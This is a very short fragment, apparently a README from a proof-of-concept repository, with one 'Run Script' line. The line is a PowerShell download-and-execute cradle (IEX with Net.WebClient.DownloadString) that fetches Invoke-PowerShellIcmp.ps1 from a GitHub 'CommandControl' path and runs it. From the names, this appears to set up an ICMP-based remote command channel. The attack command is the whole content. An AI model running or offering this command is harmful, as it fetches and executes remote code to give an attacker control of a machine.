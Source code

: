 
# Run Script

IEX (New-Object Net.WebClient).DownloadString("https://raw.githubusercontent.com/cyber-rangers/PoCs/main/CommandControl/Invoke-PowerShellIcmp.ps1");Invoke-PowerShellIcmp